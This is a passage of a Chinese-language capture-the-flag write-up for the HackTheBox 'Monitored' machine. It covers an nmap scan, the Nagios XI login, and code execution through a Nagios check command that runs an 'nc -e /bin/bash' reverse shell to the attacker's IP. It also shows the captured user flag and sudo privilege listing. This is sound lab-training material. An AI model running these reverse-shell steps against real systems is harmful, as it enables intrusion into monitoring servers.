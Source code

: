 # Monitored

:::info

Difficulty: Medium

Operating System: Linux

:::

## nmap 信息搜集

```plaintext
Nmap scan report for 10.10.11.248
Host is up (0.13s latency).
Not shown: 65530 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 61e2e7b41b5d46dc3b2f9138e66dc5ff (RSA)
|   256 2973c5a58daa3f60a94aa3e59f675c93 (ECDSA)
|_  256 6d7af9eb8e45c2026ad58d4db3a3376f (ED25519)
80/tcp   open  http       Apache httpd 2.4.56
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
|_http-server-header: Apache/2.4.56 (Debian)
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.56 ((Debian))
|_http-title: Nagios XI
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
| Not valid before: 2023-11-11T21:46:55
|_Not valid after:  2297-08-25T21:46:55
|_http-server-header: Apache/2.4.56 (Debian)
| tls-alpn:
|_  http/1.1
5667/tcp open  tcpwrapped
```

并且通过 UDP 扫描，发现 SNMP（161）也在运行

## 探测 web 服务

添加 hosts 记录

```plaintext
10.10.11.248 nagios.monitored.htb
```

尝试直接访问

![直接访问 /](img/image_20240132-123225.png)

## SNMP 信息探测

## 登陆后利用

![成功登录](img/image_20240104-130436.png)

```plaintext
Configure ->  Commands ->  Add New
```

![Commands](img/image_20240105-130554.png)

加上一个反向 shell 的命令

```bash
nc -e /bin/bash 10.10.16.11 9999
```

:::note

建议使用 netcat 进行反向 shell，直接 bash -c 不知道为什么没有成功

:::

![add reverse shell](img/image_20240109-130936.png)

```plaintext
Monitoring -> Services -> Add New
```

![Services](img/image_20240111-131120.png)

执行 `Run Check Command`

成功得到反弹shell

```bash
┌─[randark@randark-Parrot]─[~/tmp/Hackthebox-Monitored]
└──╼ $pwncat-cs -lp 9999
[13:07:28] Welcome to pwncat 🐈!                                                                                                                                                                                            __main__.py:164
[13:14:12] received connection from 10.10.11.248:53958                                                                                                                                                                           bind.py:84
[13:14:14] 0.0.0.0:9999: normalizing shell path                                                                                                                                                                              manager.py:957
[13:14:16] 10.10.11.248:53958: registered new host w/ db                                                                                                                                                                     manager.py:957
(local) pwncat$ back
(remote) nagios@monitored:/home/nagios$ whoami
nagios
```

## user pwned

```bash
(remote) nagios@monitored:/home/nagios$ cat user.txt 
5a9412d810390fed6e458fe5dba7bf30
```

## 提权探测

```plaintext title="sudo -l"
Matching Defaults entries for nagios on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
```

## 参考

[Acters/Monitored.sh - Github Gist](https://gist.github.com/Acters/058b0421dba28860afd5559db6a7afee)
